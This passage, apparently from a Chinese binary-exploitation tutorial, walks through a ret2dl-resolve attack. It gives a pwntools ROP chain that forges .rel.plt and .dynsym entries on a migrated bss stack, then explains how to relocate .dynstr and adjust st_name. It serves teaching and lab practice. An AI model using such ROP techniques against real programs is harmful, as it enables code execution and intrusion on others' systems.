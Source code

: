 ```




rop.raw(plt0)
#rop.raw(write_reloc_index)
rop.raw(index_offset)

#伪造write函数的ret addr
rop.raw('bbbb') #write函数的返回地址
rop.raw(1) #write函数的第一个参数
rop.raw(base_stage + 80) #write函数的第二个参数
rop.raw(len(sh)) #write函数的第三个参数
rop.raw(fake_write_reloc) #伪造的.rel.plt的结构体
rop.raw('a' * Align) #对齐
rop.raw(fake_write_sym) #伪造的.dynsym的结构体
#rop.raw(write_got)
#rop.raw(r_info)
# rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))
#print(rop.dump())#可查看栈布局
```

最后

![image-20240315195357679](${images}/image-20240315195357679.png)



第七步、上一步完成了.dynsym的迁移工作，这次在上一次的基础上继续将.dynstr迁移到bss段的新栈中，就是模拟红圈部分：

![image-20240315195720188](${images}/image-20240315195720188.png)



迁移.dynstr可以分为两步：

- 部署write函数的字符串"write\x00"
- 更改write函数在.dynsym的第一结构体成员变量st_name的值



**部署write函数的字符串”write\x00“**  

上一步把.dynsym放置在了base_stage+0x20的位置，但由于对齐，需要填充8字节，也就是实际上写.dynsym结构体的起始位置应该是：fake_sym_addr = base_stage + 0x28，由于.dynsym的结构体占16字节所以从fake_sym_addr+0x10的位置部署write函数的字符串"write\x00"

write后加\x00是因为.synstr中每一段字符串都以\x00结尾。



**更改st_name**

上面提过.dynsym是Elf32_Sym结构体，这个结构体的第一个成员变量st_name代表着相对.dynstr起始的位移，因此，如果需要部署.dynstr的话，st_name就必须更改，更改的值取决于想要在新栈中摆放.dynstr的位置，在上一步确认的摆放位置，那么还是用之前的公式划等式

```
st_name + .dynstr = fake_sym_addr + 0x10
```
